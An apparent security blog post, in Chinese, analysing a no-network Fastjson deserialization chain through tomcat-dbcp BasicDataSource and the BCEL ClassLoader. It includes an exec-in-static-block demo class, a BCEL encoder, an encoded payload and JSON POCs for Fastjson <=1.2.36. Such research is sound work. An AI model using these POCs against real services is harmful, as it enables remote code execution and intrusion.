


JSON.parseObject和JSON.parse
parseObject
- 如果是
JSON.parseObject(*): 没有指定class，在反序列化得时候会得到类的构造方法，所有属性得getter方法，JOSN里面非私有属性得setter方法，properties属性得getter方法调用两次 - 如果是
JSON.parseObject(*, *.class): 指定了class，在反序列化得时候会得到类的构造方法，JSON里面非私有属性得setter方法，properties属性得getter方法
parse
优先匹配其属性的setter方法，如果没有对应的setter方法，他就会调用对应属性的getter方法
但是仍然要满足一些条件才可以触发getter方法
- 方法名长度大于等于4
- 非静态方法
- 以get开头而且第四个字母是大写的
- 无参数传入
- 返回值需要继承自
Collection Map AtomicBoolean AtomichInteger AtomicLong
Class.forName()和ClassLoader.loadClass()
Class.forName() 和 ClassLoader.loadClass() 这两个方法都可以用来加载目标类，但是都不支持加载原生类型，比如：int。Class.forName() 可以加载数组，而 ClassLoader.loadClass() 不能
forName() 默认会对类进行初始化，会执行类中的 static 代码块。而ClassLoader.loadClass() 默认并不会对类进行初始化，只是把类加载到了 JVM 虚拟机中
不出网反序列化
前置
虽然说，不需要与外界互通的还有一个链子是TemplatesImpl
//Gadget chain
TemplatesImpl.getOutputProperties()
TemplatesImpl.newTransformer()
TemplatesImpl.getTransletInstance()
TemplatesImpl.defineTransletClasses();之后通过defineClass()就成功加载了恶意类
但是要求过于苛刻了，不仅因为_name和_bytecodes是私有属性，需要加上Feature.SupportNonPublicField
其中还有一个判断是要求恶意类必须是AbstractTranslet类的子类
我们知道这个利用链，在使用JSON.parse的情况下也可以触发漏洞，那么这里的TemplatesImpl.getOutputProperties()是否满足上面的条件，他的返回值是Properties类，是Hashtable的子类，而Hashtable类实现了Map接口，所以完全满足上面触发getter的条件
BasicDataSource类利用
恶意类是org.apache.tomcat.dbcp.dbcp2.BasicDataSource
需要的依赖包是tomcat-dbcp: 是tomcat的数据库驱动组件
//Gadget chain
BasicDataSource.getConnection()
BasicDataSource.createDataSource()
BasicDataSource.createConnectionFactory()利用链分析
在BasicDataSource.createConnectionFactory方法中
在这里就是实现了自定义driverClassName和driverClassLoader，如果我们能够控制这两个值，就可以实现恶意类的加载
通过全局搜索可以发现，在BasicDataSource.createDataSource()方法中调用了BasicDataSource.createConnectionFactory方法

同样可以发现在BasicDataSource.getConnection方法中调用了BasicDataSource.createDataSource方法

我们来看看，我们需要自定义的driverClassName和driverClassLoader是否是可控的，我们可以很明白的看出来这两个都是BasicDataSource类的属性，跟进他们是否都有setter方法，可以进行为私有属性设置值的操作，可以发现具有setter，所以我们可以自定义这两个属性
然后，我们看看这里的getConnection方法时候满足parse可以反序列化触发的条件，通过更近细节，我们可以发现，这个方法返回值为Connection接口，并没有继承那几个特定的接口，那难道我们就不能使用parse进行反序列化利用了嘛？
特殊的ClassLoader
那么怎么才能通过自定义的driverClassLoader进行恶意类的利用呢
BCEL的利用
对于com.sun.org.apache.bcel.internal.util.ClassLoader
他重写了loadClass方法
他会判断是不是以$$BCEL$$开头，如果是，就会将他后面的字符串进行解码，作为Class的字节码，并调用了defineClass()获取对应的class对象
所以我们将dirverClassName构造成经过BCEL编码的字节码，dirverClassLoader设置为com.sun.org.apache.bcel.internal.util.ClassLoader
构建一个恶意类
因为前面分析过，forName调用类的时候init是true所以，在类加载之后会直接执行他的static代码块里面的内容
//EvilOfBcel
package pers.classLoad;
import java.io.IOException;
public class EvilOfBcel {
//采用静态代码块的形式，初始化即执行恶意代码
static {
try {
Runtime.getRuntime().exec("calc");
} catch (IOException e) {
e.printStackTrace();
}
}
}进行BCEL编码并且加上$$BCEL$$字符串
//TransBcel
package pers.classLoad;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import java.io.IOException;
public class TransBcel {
public static void main(String[] args) throws IOException, InstantiationException, IllegalAccessException, ClassNotFoundException {
JavaClass javaClass = Repository.lookupClass(EvilOfBcel.class); //转化成原生字节码，javac命令也可以达到目的
String code = Utility.encode(javaClass.getBytes(), true); //将字节码转化为BCEL格式的字节码
System.out.println(code);
//生成的code还需要加上$$BCEL$$，因为com.sun.org.apache.bcel.internal.util.ClassLoader中会判断类名是否的他开头
//执行恶意类
Class c = (Class) new ClassLoader().loadClass("$$BCEL$$" + code);
c.newInstance();
}
}payload:
$$BCEL$$$l$8b$I$A$A$A$A$A$A$AuQ$cbN$c30$Q$i$b7i$93$86$94B$a1$bc$df$cf$c2$81$5c$b8$818$80$40B$E$8a$u$82$b3kL1$84$a4J$5c$c4$lq$e6$C$88$D$l$c0G$n6$a1$3c$q$mRv$bd$b3$9e$d9$d9$e4$f5$ed$f9$F$c0$w$WlX$Y$b41$84a$L$pI$k51f$p$87q$T$T$s$s$Z$f2$eb$wPz$83$n$5b$5d$3aa0$b6$c23$c9P$f2T$m$P$da$d7$N$Z$j$f3$86OH$d9$L$F$f7Ox$a4$92$ba$D$g$faB$c5$M$a3$5eKF$b1$x$7c$k$c7$5e$c8$cf$dc$ed$h$e5$d7$ce7$85$f4$d7$Y$acu$e1wf0$e2T$bcK$7e$c3$5d$V$ba$bb$b5$ed$5b$n$5bZ$85$B$5d$x$d65$XW$fb$bc$95j$93M$G$bb$k$b6$p$nwT2$ab$f4$z$ba$92$u8$u$c061$e5$60$g3d$85$dc$J$H$b3$98c$e8$fbc$82$83y$d8$M$c3$ff$3ae$e8Ii$3e$P$9an$adq$v$85f$e8$fd$86$8e$da$81V$d7d$c4nJ$fdUT$aaK$de$af$3b$b4$8d$no$a5$60X$ac$fe$e8$d6u$a4$82$e6$daO$c2a$U$K$Z$c7D$u$b5$a8$a9$d3op$iq$ni$x$93$7e$5e$f2d$c0$92$5d$vvQ$e5Rf$94s$cb$8f$60$f7i$db$a1$98$ff$AQ$a4$e8t$ce$dd$uQ$b6$d0$f3E$e6$a9$YP$7eB$a6$9c$7d$80qz$Hko$f9$B$f9$fb$U$_$Q7$87l$aa8$40$t$Q$b3$40$9a$O$b1$93$d8K$9a$9f$T$8a0$a8$$S$d5G$af$89$8cg$a2$df$a0F$r55$f0$O$cbR$89$g$86$C$A$APOC的构造
这里有一个小trick：我们使用{}来包裹payload，在反序列化的时候会生成一个JSONObject对象，然后再将JSONObject对象放在了key的位置，其在反序列化的时候就会执行key.toString()操作
com.alibaba.fastjson.parser.DefaultJSONParser.parseObject
（做个小更改，这里的图片有点错误，在这个版本下，已经不能使用这条链子了，需要满足是<=1.2.36）
因为在高版本中已经将其中的key的toString()方法给qia了，就不能够利用了。
这样构造POC就会成功执行他的getter方法，达到使用parse方法进行反序列化漏洞触发的目的
{
{
"x":{
"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
"driverClassLoader": {
"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
},
"driverClassName": "$$BCEL$$..."
}
}: "x"
}完美的POC:
{
{
"@type": "com.alibaba.fastjson.JSONObject",
"x":{
"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
"driverClassLoader": {
"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
},
"driverClassName": "$$BCEL$$$l$8b$I$A$..."
}
}: "x"
}这都是使用的是JSON.parse进行反序列化的情况，如果使用的是JSON.parseObject进行反序列化的情况，就没有这么麻烦了只需要：
POC：
{
"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",
"driverClassLoader": {
"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"
},
"driverClassName": "$$BCEL$$$l$8b......"
}前提
- 需要带有
tomcat-dbcp的jar包，而且在8.0之后的包的路径是这样的，在之前的包路径是将dbcp2换成dbcp - 需要有BCEL这个ClassLoader，因为在JDK 8u251之后的版本中没有这个了
- 对应的JSON版本需要<=1.2.36
参考


- Post link: https://roboterh.github.io/2022/04/03/Fastjson%E5%86%85%E7%BD%91%E5%88%A9%E7%94%A8%E9%93%BE/
- Copyright Notice: All articles in this blog are licensed under unless otherwise stated.